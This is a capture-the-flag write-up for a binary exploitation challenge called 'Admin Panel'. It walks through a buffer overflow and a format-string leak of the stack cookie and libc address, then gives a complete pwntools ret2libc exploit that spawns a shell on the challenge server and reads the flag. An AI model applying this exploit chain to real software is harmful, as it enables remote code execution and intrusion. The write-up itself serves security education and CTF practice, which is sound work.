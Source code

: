https://ctftime.org/event/2238/

# Admin Panel ~ PWN

I made a secure login panel for administrators to access.I might not be the best C programmer out there, but just in case, I decided to enable several standard security measures to prevent unauthorized access.

NOTE: Successful exploit attempts may take several tries, due to security measures.

## Solution

We can see on line 65 that there is a buffer overflow:

```
scanf("%44s", password);
```

We can see on line 69 that `printf` is passed a string directly. Nice.

`status` lives on the stack and can be written to by the buffer overflow we saw earlier.

We can see that on line 67 only the first 13 bytes of the password buffer need to match:

```
if (strncmp(username, "admin", 5) != 0 || strncmp(password, "secretpass123", 13) != 0) {
```

The rest of the password buffer can be used as either padding, to reach the status buffer, or for our `printf` payload.

We can determine the exact amount of padding easily with the `cyclic` function in pwntools.

Once we know the amount of padding required, such that the first byte of the status buffer is written to next, we can supply a `%p` based `printf` payload to leak the stack cookie and return address with the following:

```
"secretpass123aaaabaaacaaadaaaeaa%15$p.%17$p"
```

The return address is within libc, specifically at `0x2409b` in `__libc_start_main`, so we can use this to compute the base address of libc.

In order to get the flag we must use another buffer overflow present in `admin` on line 39:

```
scanf("%128s", report);
```

Grab a couple of useful gadgets:

```
$ ROPgadget --binary ./libc.so.6 | grep ": pop rdi ; ret$"
0x0000000000023a5f : pop rdi ; ret
```

```
$ ROPgadget --binary ./libc.so.6 | grep ": ret$"
0x000000000002235f : ret
```

Now we simply supply a `ret2libc` payload supplying our cookie and using the known base of libc:

```
from pwn import *

io = remote("tamuctf.com", 443, ssl=True, sni="admin-panel")

io.readuntil(b"Enter username of length 16:\n")

payload = b"admin"

io.sendline(payload)

io.readuntil(b"Enter password of length 24:\n")

payload = b"secretpass123"
payload += b"aaaabaaacaaadaaaeaa" # padding
payload += b"%15$p.%17$p" # stack cookie and libc

io.sendline(payload)

io.readline()

leaks = io.readline().decode().split(".")

cookie = int(leaks[0], 16)

leak = int(leaks[1], 16)

libc = ELF("./libc.so.6")
libc.address = leak - 0x2409b

io.readuntil(b"Enter either 1, 2 or 3: \n")

io.sendline(b"2") # report

io.readuntil(b"Enter information on what went wrong:\n")

payload = b"A" * 0x48
payload += p64(cookie)
payload += p64(0)
payload += p64(libc.address + 0x23a5f) # pop rdi; ret
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.address + 0x2235f) # aligning ret
payload += p64(libc.sym["system"])
payload += p64(0)

io.sendline(payload)

io.clean()

io.sendline(b"cat flag.txt")

io.interactive() # works about 50% of the time
```

Don't forget the extra aligning `ret` in order to keep the stack aligned correctly.

## Flag
gigem{l3ak1ng_4ddre55e5_t0_byp4ss_s3cur1t1e5!!}
